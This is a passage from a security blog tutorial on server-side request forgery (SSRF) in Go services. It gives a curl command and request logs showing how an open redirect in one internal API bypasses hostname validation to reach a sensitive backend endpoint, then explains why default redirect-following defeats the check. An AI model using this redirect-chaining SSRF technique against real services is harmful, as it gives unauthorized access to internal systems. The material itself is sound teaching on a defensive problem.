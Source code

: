 and new exploit:

```bash
$ curl -s \
    http://publicapi/debug\?url\=
        http://imageapi/redirect\?target\=
            http://backendapi/internal
This is internal sensitive endpoint
```

It might seems that it's a bit unfair to abuse Image API, but this is reality many bug bounty programs. You can find yet another service with vulnerability that you can chain together.

Do you see what kind of flaw is in Image API? It's [Open Redirect](https://portswigger.net/kb/issues/00500100_open-redirection-reflected). What it does? It returns `301` redirect http code and `Location` taken directly from input parameter (`target=`). It `low` vulnerability but can be used to escalate SSRF.

#### Exploit 3 step by step

Let's dive deeper into this chain of vulnerabilities:

```bash
# publicapi
-> /debug request: user-agent=curl/7.86.0
200 | GET "/debug?url=http://imageapi/redirect?target=
http://backendapi/internal"

# imageapi
-> /redirect request: user-agent=Go-http-client/1.1
301 | GET "/redirect?target=http://backendapi/internal"

# backendapi
-> /internal request: user-agent=Go-http-client/1.1
200 | GET "/internal"
```

- first Public API is called on `/debug` endpoint
- it will validate hostname, which is `imageapi` - OK!
- than it will call `imageapi` on `/redirect` endpoint
- Image API will return `301` redirect to `backendapi` location
- **Public API will follow redirect and call Backend API**

One more view on this:

{{< figure src="https://github.com/xvnpw/xvnpw.github.io/assets/17719543/b06b7a27-2704-40e1-bb7c-c519b34c6e40" class="image-center" >}}

This is very interesting. Go `http` default client will follow any redirects. You will get same behavior in other languages.

Our positive validation code is best what we could done. Why we didn't mitigate this scenario 😟? It's really simple: `http` client knows nothing about validation. 

{{< figure src="https://github.com/xvnpw/xvnpw.github.io/assets/17719543/6217f5b9-59c0-4ce0-a827-ba1325b8a43f" class="image-center" >}}


If you have any comments or feedback, you are welcome to write to me on [Twitter](https://twitter.com/xvnpw).